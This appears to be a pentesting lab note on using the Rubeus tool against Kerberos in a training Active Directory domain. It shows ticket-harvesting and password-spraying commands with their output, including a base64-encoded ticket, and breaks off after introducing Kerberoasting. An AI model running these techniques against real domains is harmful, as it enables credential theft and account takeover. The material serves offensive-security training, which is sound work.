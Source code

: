 ## Harvesting & Brute Forcing Tickets with Rubeus
Some of the attacks that Rubeus supports include: overpass the hash, ticket requests and renewals, ticket management, ticket extraction, harvesting, pass the ticket, AS-REP Roasting, and `Kerberoasting`.

[https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

### Harvesting Tickets
Harvesting tickets intercepts tickets that are being sent to the KDC and saves them for use in other attacks like pass-the-ticket attacks. These tickets contain information such as user, Start time, end time, renew date, flags, etc.

```bash
C:\\>Rubeus.exe harvest /interval:30
...
User                  :  Administrator@CONTROLLER.LOCAL
  StartTime             :  11/15/2022 1:39:36 AM
  EndTime               :  11/15/2022 11:39:36 AM
  RenewTill             :  11/22/2022 1:39:36 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

    doIFjDCCBYigAwIBBaEDAgEWooIEgDCCBHxhggR4MIIEdKADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyiJTAjoAMCAQKhHDAaGwZr
    cmJ0Z3QbEENPTlRST0xMRVIuTE9DQUyjggQwMIIELKADAgESoQMCAQKiggQeBIIEGjOzjcLNb6Cn/+Jl9UAU1IjbdQD1sHFK1o/B
...
```
### Brute Forcing and Password Spraying
Password spraying will take a given Kerberos-based password and spray it against all found users and give a `.kirbi` ticket. This ticket is a TGT that can be used in order to get service tickets from the KDC as well as to be used in attacks like the pass-the-ticket attack.

Before attacking add IP to hosts file.

```bash
echo <IP_ADDRESS> <DOMAIN> >> C:\\Windows\\System32\\drivers\\etc\\hosts
echo 10.10.217.22 CONTROLLER.local >> C:\\Windows\\System32\\drivers\\etc\\hosts
```

```bash
C:\\>Rubeus.exe brute /password:Password1 /noticket
...
[-] Blocked/Disabled user => Guest
[-] Blocked/Disabled user => krbtgt
[+] STUPENDOUS => Machine1:Password1
[*] base64(Machine1.kirbi):
...
```
This attack can be noisy and may get you locked out, depending on login lockout policies.

## `Kerberoasting` with Rubeus and `Impacket`
`Kerberoasting` allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password.
